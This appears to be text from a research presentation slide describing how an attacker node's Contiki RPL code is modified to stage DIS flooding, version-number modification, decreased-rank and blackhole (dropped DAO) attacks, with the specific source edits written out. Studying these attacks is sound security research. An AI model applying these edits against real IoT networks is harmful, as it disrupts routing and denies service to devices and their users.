

# Methodology
Flooding
#define RPL_DIS_INTERVAL 0
#define RPL_DIS_START_DELAY 0
Also in rpl-timers.c replace "next_dis++;" with "next_dis++; int i=0; while (i<10) {i++; dis_output(NULL);
Version number Modification
In rpl-icmp6.c replace dag->version with dag->version++ in dio_output
Decreased Rank
RPL_CONF_MIN_HOPRANKINC is set to 0 in udp_sender.c of attacker node.
RPL_MAX_RANKINC in rpl-private.h to limit the number of levels of children in the network. i.e. leaf nodes will not forward any DIOs.
INFINITE_RANK is reduced to 256 from 0xffff.
Blackhole
selective forwarding by dropping DAO messages.
Below lines in rpl-icmp6.c are commented
.uip_icmp6_send(rpl_get_parent_ipaddr(dag->preferred_parent),ICMP6_RPL,RPL_CODE_DAO, buffer_length);
goto fwd_dao